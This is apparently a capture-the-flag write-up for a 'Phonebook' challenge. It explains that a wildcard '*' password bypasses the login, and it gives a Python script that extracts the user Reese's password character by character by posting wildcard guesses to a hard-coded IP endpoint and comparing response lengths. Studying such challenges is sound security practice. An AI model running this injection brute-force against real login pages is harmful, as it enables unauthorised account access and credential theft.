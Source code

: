 # Phonebook
![Screenshot from 2021-08-15 10-33-20](https://user-images.githubusercontent.com/87865134/129466125-7b06e22a-a1d8-4ab2-a513-110b8d2cf735.png)

## - Hint: 
- Username is **Reese**
- Password can use regex because enter password = * can login
![Screenshot from 2021-08-15 10-34-00](https://user-images.githubusercontent.com/87865134/129466173-e55e685d-baf4-4150-af59-3c697ecfeedd.png)

> => write script to get password

## - Script to get password:
```python
import requests

url = 'http://139.59.166.56:31421/login'

characters = ["a","b","c","d","e","f","g","h","i","j","k","l","m","n","o","p","q","r","s","t","u","v","w","x","y","z",
"A","B","C","D","E","F","G","H","I","J","K","L","M","N","O","P","Q","R","S","T","U","V","W","X","Y","Z",
"#","$","%","@","!","0","1","2","3","4","5","6","7","8","9","{","}","[","]","_","&","^"," "]

password = ''

# request ok 2586
# request fail 2214

while True:
    flag = True
    for char in characters:
        tmp = password + char + '*'
        data = {'username': 'Reese', 'password': tmp}
        res = requests.post(url, data)
        con_len = res.headers['Content-length']
        if con_len == '2586':
            print(char)
            password += char
            flag = False
            break
    if flag == True:
        break

print(password)
```
![Screenshot from 2021-08-15 11-10-00](https://user-images.githubusercontent.com/87865134/129466848-8e77b9ee-e4c7-4977-9229-23278bc61107.png)

